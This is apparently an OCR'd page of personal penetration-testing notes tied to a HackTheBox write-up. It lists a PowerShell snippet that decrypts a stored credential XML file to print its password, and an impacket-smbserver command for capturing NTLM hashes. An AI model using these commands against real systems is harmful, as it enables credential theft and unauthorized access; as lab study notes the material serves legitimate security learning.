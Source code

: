 # WHOAMI DISABLE

**[Upload whoami.exe from kali linux or \$env:UserName]{.underline}**

# XML,TXT DECRYPT

**[\$cred = Import-CliXML -path
C:\\Data\\Users\\App\\user.txt]{.underline}**

**[\$cred.GetNetworkCredential().password]{.underline}**

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image43.png){width="6.5in"
height="3.1944444444444446in"}

# SPOOFING NLTMHASH using impacket-smbserver

**[<https://medium.com/@ardian.danny/hackthebox-escape-writeup-931dba100509>]{.underline}**

**[impacket-smbserver -smb2support kali .]{.underline}**

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image12.png){width="6.5in"
height="0.9444444444444444in"}
